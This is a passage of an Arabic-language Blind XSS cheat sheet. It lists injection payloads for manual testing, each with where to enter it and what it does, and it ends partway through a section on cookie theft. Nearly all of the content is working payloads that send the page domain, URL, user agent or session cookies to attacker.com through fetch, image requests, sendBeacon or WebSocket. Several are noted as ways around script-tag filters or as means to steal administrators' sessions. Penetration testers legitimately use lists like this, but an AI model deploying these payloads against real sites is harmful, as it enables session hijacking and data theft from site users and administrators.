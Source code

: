 
## جميع المحاولات الممكنة للحقن المستخدمة في Blind XSS
في الحقن المستخدمة في Blind XSS، المحاولات تركز على تنفيذ شيفرة JavaScript في سياقات غير مرئية وإرسال البيانات إلى خادم خارجي. سأقسم المحاولات إلى فئتين:
1. **الحقن اليدوية**: للاختبار اليدوي عبر نقاط الإدخال العرضة.
2. **الحقن للأتمتة**: للاستخدام مع سكربتات أو أدوات آلية.

### 1. الحقن اليدوية
تُستخدم هذه الحقن عند اختبار الثغرة يدويًا عبر إدخال شيفرة في حقول النماذج، معلمات URL، أو نقاط إدخال أخرى تُعالج في سياقات داخلية. الهدف هو تأكيد التنفيذ وجمع البيانات.
 { #XSS_exploit / #XSS_Idea_for_script_tag  }
#### أ. حقن لتأكيد التنفيذ

إرسال بيانات بسيطة لتأكيد أن الحقنة تُنفذ.
- **الحقن**: `<script>fetch('http://attacker.com/log?d='+encodeURIComponent(document.domain))</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>fetch('http://attacker.com/log?d='+encodeURIComponent(document.domain))</script>`
  - **كيف يعمل**: يرسل نطاق الصفحة إلى خادم المهاجم.
  - **متى يُستخدم؟**: لتأكيد سياق التنفيذ.
- **الحقن**: `<img src="http://attacker.com/log?d=document.domain">`
  - **الإدخال**: أدخل في نموذج دعم: `<img src="http://attacker.com/log?d=document.domain">`
  - **كيف يعمل**: يرسل النطاق عبر طلب صورة.
  - **متى يُستخدم؟**: لتجنب فلاتر تحظر `<script>`.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?l='+encodeURIComponent(window.location.href)</script>`
  - **الإدخال**: `https://example.com/?comment=<script>new Image().src='http://attacker.com/log?l='+encodeURIComponent(window.location.href)</script>`
  - **كيف يعمل**: يرسل عنوان URL الحالي.
  - **متى يُستخدم؟**: لتحديد الصفحة التي تُنفذ فيها الحقنة.
- **الحقن**: `<script>fetch('http://attacker.com/log', {method: 'POST', body: navigator.userAgent})</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>fetch('http://attacker.com/log', {method: 'POST', body: navigator.userAgent})</script>`
  - **كيف يعمل**: يرسل معلومات المتصفح.
  - **متى يُستخدم؟**: لجمع بيانات الجهاز.
- **الحقن**: `<script>navigator.sendBeacon('http://attacker.com/log', 'Blind XSS Executed')</script>`
  - **الإدخال**: أدخل في رسالة دعم: `<script>navigator.sendBeacon('http://attacker.com/log', 'Blind XSS Executed')</script>`
  - **كيف يعمل**: يرسل رسالة تأكيد بشكل غير متزامن.
  - **متى يُستخدم؟**: لتأكيد التنفيذ بشكل موثوق.

#### ب. استخراج ملفات تعريف الارتباط
{  #XSS_exploit }
استخدام `document.cookie` لسرقة بيانات الجلسة.
- **الحقن**: `<script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط إلى خادم المهاجم.
  - **متى يُستخدم؟**: لسرقة جلسات المشرفين إذا لم يكن `HttpOnly` مفعلاً.
- **الحقن**: `<img src="http://attacker.com/log?c=document.cookie">`
  - **الإدخال**: أدخل في نموذج: `<img src="http://attacker.com/log?c=document.cookie">`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عبر طلب صورة.
  - **متى يُستخدم؟**: لتجنب فلاتر `<script>`.
- **الحقن**: `<script>new WebSocket('ws://attacker.com').send(document.cookie)</script>`
  - **الإدخال**: `https://example.com/?comment=<script>new WebSocket('ws://attacker.com').send(document.cookie)</script>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عبر WebSocket.